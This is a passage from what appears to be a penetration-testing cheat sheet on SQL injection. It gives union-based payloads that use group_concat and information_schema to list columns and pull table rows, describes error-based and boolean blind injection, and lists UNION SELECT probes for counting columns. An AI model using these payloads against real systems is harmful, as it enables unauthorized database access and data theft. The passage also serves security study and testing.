 ***

* Use _group\_concat()_ to get all columns

{% code overflow="wrap" lineNumbers="true" %}
```sql
/about/-1 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns WHERE table_name='$tablename'

About | id,firstName,lastName,pfpLink,role,shortRole,bio,$columname None #The result obtained in the response
```
{% endcode %}

***

* Obtain the required information from the table

{% code overflow="wrap" lineNumbers="true" %}
```sql
/about/-1 UNION ALL SELECT $columname,null,null,null,null FROM $tablename WHERE id = 1
#The response is the information that we were looking for
```
{% endcode %}
{% endtab %}
{% endtabs %}

### <mark style="color:red;">Error-Based</mark>

Obtaining information about the database structure as error messages from the database, is printed directly to the browser screen.

## <mark style="color:orange;">Blind (Inferential)</mark>

Results of the attack can't be directly seen on the screen, we get little to no feedback to confirm whether our injected queries were.

### <mark style="color:red;">Boolean Based</mark>

Use the response we receive back from our injection if this only has two outcomes

* Check if the page has verification queries

<pre class="language-sql" data-overflow="wrap" data-line-numbers><code class="lang-sql"><strong>$url/$query?$column=$value
</strong></code></pre>

***

* Use union injection until the state changes

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION SELECT 1;
$url/query?$column=$changedvalue' UNION SELECT 1,2;   #Try with a extra value
$url/query?$column=$changedvalue' UNION SELECT 1,2,3; #Try Until the result change
#This will determine the number of columns
```
{% endcode %}
